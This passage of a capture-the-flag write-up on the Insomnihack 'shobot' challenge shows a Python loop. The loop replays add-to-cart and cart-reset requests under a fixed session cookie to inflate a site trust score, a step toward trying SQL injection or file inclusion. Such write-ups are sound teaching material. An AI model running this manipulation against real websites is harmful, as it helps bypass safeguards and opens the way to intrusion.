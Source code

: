 ![shobot website](/media/2017.01/shobot.png){: .image-process-article-image}

There also is a parameter `TRUST_ACTION` with a sort of score regarding the
actions on the site. With a elevated score it is possible to test some attack
like LFI or SQLi. So in order to build our trust we use the following python
script:

    ::python
    import requests
    import time

    url ='http://shobot.teaser.insomnihack.ch'
    req1 = '/?page=article&artid=1&addToCart'
    req2 = '/?page=cart&reset'
    cookie= dict(PHPSESSID= 'f5hnhjd5qbiiebu9v057fe6m51')

    while True:
        r = requests.get(url+req1, cookies=cookie)
        r = requests.get(url+req2, cookies=cookie)

